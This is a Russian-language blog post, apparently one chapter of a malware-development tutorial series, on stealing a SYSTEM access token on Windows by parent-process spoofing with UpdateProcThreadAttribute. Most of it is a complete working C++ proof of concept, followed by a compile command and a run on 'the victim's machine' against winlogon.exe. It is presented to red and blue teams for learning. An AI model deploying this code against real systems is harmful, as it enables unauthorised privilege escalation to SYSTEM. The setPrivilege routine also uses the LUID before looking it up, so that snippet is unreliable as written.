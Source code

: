 \newpage
\subsection{83. разработка вредоносного ПО: закрепление (persistence) - часть 17 - APT техники: Кража токена через UpdateProcThreadAttribute. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

Привет, энтузиасты кибербезопасности и белые хакеры!     

![token](./images/77/2022-10-29_03-59.png){:class="img-responsive"}    

Этот пост является результатом моего собственного исследования одной из более интересных APT-техник: кражи токена через `UpdateProcThreadAttribute`.     

В предыдущем [посте](https://cocomelonc.github.io/tutorial/2022/09/25/token-theft-1.html) я писал о классической краже токена через `DuplicateTokenEx` и `CreateProcessWithTokenW`. Сегодня я опишу альтернативный метод, который работает, начиная с Windows Vista.     

### UpdateProcThreadAttribute

В первой части моего руководства мы просто выполняли классический трюк: включали `SE_DEBUG_PRIVILEGE`, открывали токен из любого системного процесса (что работает даже для защищенных процессов), дублировали токен, настраивали привилегии на нем, а затем использовали этот токен.     

Сегодня мы можем использовать более простой трюк. Microsoft реализовала в Windows Vista возможность явно указывать родительский процесс при создании нового процесса, что позволяет повышенному процессу оставаться дочерним по отношению к вызывающему.    

Обычно в случае UAC необходимо явно передавать токен новому процессу. Если токен не передается, новый процесс унаследует его от назначенного родителя. Единственное условие - дескриптор родительского процесса должен иметь привилегию доступа `PROCESS_CREATE_PROCESS`.     

Таким образом, мы просто открываем какой-либо системный процесс с правом `PROCESS_CREATE_PROCESS`. Затем используем этот дескриптор с `UpdateProcThreadAttribute`. В результате наш процесс наследует токен системного процесса.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

И все, что требуется для работы этого метода - `SE_DEBUG_PRIVILEGE`.    

### техника. практический пример

Прежде всего, иногда вам нужно включить `SeDebugPrivilege` в текущем наборе привилегий:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Затем "откроем" процесс, токен доступа которого мы хотим украсть, с правами доступа `PROCESS_CREATE_PROCESS`:

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

После этого используем его дескриптор с `UpdateProcThreadAttribute`:

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, 
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Наконец, создаем процесс:

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, 
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
(LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : 
"failed to create process :(\n");
```

Итак, полный исходный код этой логики выглядит так:    

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : 
  "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, 
  EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
  (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : 
  "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

Как можно видеть, код немного отличается от предыдущей части. Этот код - просто "грязный" PoC, для упрощения я запускаю `mspaint.exe`.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш PoC:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![token](./images/77/2022-10-29_03-48.png){:class="img-responsive"}    

Затем запускаем его на машине жертвы:    

```powershell
.\hack.exe <PID>
```

![token](./images/77/2022-10-29_03-56.png){:class="img-responsive"}    

Например, можно украсть токен доступа `winlogon.exe (PID: 544)`:     

![token](./images/77/2022-10-29_03-57.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-58.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-59_1.png){:class="img-responsive"}    

Как можно видеть, все сработало идеально!     

Надеюсь, этот пост окажется хотя бы немного полезным для специалистов начального уровня в области кибербезопасности (а возможно, и для профессионалов), а также повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)        
